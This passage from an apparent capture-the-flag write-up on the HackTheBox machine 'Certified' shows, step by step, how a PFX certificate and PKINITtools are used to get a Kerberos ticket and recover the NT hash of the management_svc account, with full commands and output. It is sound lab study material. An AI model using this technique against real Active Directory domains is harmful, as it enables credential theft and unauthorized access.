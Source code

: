 The tool itself points us to PKINITtools which we can use to find the NTLM hash. To do so we must first clone the github repository. This repository uses an oscrypto version that break so we must also add a compatible version to the requirements.txt file.

```
git clone https://github.com/dirkjanm/PKINITtools
cd PKINITtools
vim requirements.txt -> add the following in a new line: 
oscrypto @ git+https://github.com/wbond/oscrypto.git@d5f3437ed24257895ae1edd9e503cfb352e635a8

pip install -r requirements.txt
```

We can now use the python scripts inside PKINITtools, I also changed the pfx file name to something easier to read. Remember to use ntpdate to avoid the clock skew errors:

```
sudo ntpdate 10.10.11.41; python3 gettgtpkinit.py -cert-pfx management_svc.pfx -pfx-pass gyii9GUBQp5oPVgnnIAy certified.htb/management_svc management.ccache -dc-ip 10.10.11.41 -v
[sudo] password for madaf: 
2025-05-30 03:47:07.365895 (+0200) +25200.327198 +/- 0.008258 10.10.11.41 s1 no-leap
CLOCK: time stepped by 25200.327198
2025-05-30 03:47:07,510 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-05-30 03:47:07,522 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-05-30 03:47:11,672 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-05-30 03:47:11,673 minikerberos INFO     a2e812a9dab1dea0480dc7e75666beb554ad78b7f5b6ce31d5d1b3bcf218d303
INFO:minikerberos:a2e812a9dab1dea0480dc7e75666beb554ad78b7f5b6ce31d5d1b3bcf218d303
2025-05-30 03:47:11,677 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

This created the ccache file that we can use to authenticate with kerberos and the file key to use it. We can export the ccache file so its easier to use.

```
export KRB5CCNAME=management.ccache

klist
Ticket cache: FILE:management.ccache
Default principal: management_svc@CERTIFIED.HTB

Valid starting     Expires            Service principal
30-05-25 03:47:11  30-05-25 13:47:11  krbtgt/CERTIFIED.HTB@CERTIFIED.HTB
```

We can now get the NTLM hash of the management_svc user with this command:

```
sudo ntpdate 10.10.11.41 ; python3 getnthash.py certified.htb/management_svc -key a2e812a9dab1dea0480dc7e75666beb554ad78b7f5b6ce31d5d1b3bcf218d303
2025-05-30 03:48:25.711007 (+0200) +25200.329470 +/- 0.006982 10.10.11.41 s1 no-leap
CLOCK: time stepped by 25200.329470
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
a091c1832bcdd4677c28b5a6a1295584
```
